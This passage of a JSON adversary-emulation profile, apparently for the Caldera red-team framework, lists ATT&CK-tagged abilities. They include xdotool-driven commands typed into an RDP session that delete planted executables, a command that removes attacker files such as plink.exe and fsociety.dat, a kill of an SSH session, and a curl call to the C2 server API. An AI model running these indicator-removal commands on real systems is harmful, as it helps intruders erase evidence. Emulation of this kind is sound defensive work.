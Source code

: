 ```json
      "privilege": "Unknown",
      "tactic": "exfiltration",
      "technique": "Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol",
      "attack_id": "T1048.003"
    },
    {
      "ability_id": "0c5cf9e2-3152-4b4c-9629-2ed7a00da09d",
      "platform": "linux",
      "commands": {
        "sh": "sleep 3;\nrdp_pid=$(pgrep -f \"xfreerdp.*/v:localhost\");\nrdp_window=$(xdotool search --pid \"$rdp_pid\");\nsleep 3; \nxdotool type --window \"$rdp_window\" 'del C:\\ProgramData\\VMware\\VMware.exe';\nsleep 3; \nxdotool key --window \"$rdp_window\" Return;\nsleep 3; \nxdotool type --window \"$rdp_window\" 'rmdir C:\\ProgramData\\VMware';\nsleep 3; \nxdotool key --window \"$rdp_window\" Return;\nsleep 1;\nxdotool type --window \"$rdp_window\" 'exit';\nxdotool key --window \"$rdp_window\" Return;\nsleep 1;\nxdotool type --window \"$rdp_window\" 'exit';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3;\nxdotool type --window \"$rdp_window\" 'exit';\nxdotool key --window \"$rdp_window\" Return;\nsleep 2;\nxdotool type --window \"$rdp_window\" 'del C:\\Windows\\System32\\mom64.exe C:\\Windows\\temp\\Nt.dat C:\\Windows\\System32\\ps.exe';\nxdotool key --window \"$rdp_window\" Return;\nsleep 2;   \nxdotool type --window \"$rdp_window\" 'exit';\nxdotool key --window \"$rdp_window\" Return;\nsleep 2;\n\nkill $(ps aux | grep \"sshd: #{caldera.user.name}\" | grep -v priv | grep -v grep | awk '{print $2}')\n"
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Indicator Removal on Host: File Deletion",
      "attack_id": "T1070.004"
    },
    {
      "ability_id": "d9c9a941-c0e8-4eed-8cc3-6511ad5b9e15",
      "platform": "windows",
      "commands": {
        "cmd": "del C:\\Users\\gosta\\AppData\\Roaming\\fsociety.dat C:\\Users\\Public\\Downloads\\plink.exe;\n"
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Indicator Removal on Host: File Deletion",
      "attack_id": "T1070.004"
    },
    {
      "ability_id": "16767c68-a865-46af-a0e4-ff8d742efc3f",
      "platform": "windows",
      "commands": {
        "cmd": "curl -s -H \"KEY:#{server.api.key}\" -H \"Content-Type: application/json\" -X PATCH http://#{caldera.server.ip}:8888/api/v2/agents/#{paw} -d \"{\\\"watchdog\\\":1}\"\n"
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Indicator Removal on Host: File Deletion",
      "attack_id": "T1070.004"
    }
  ]
}      
```

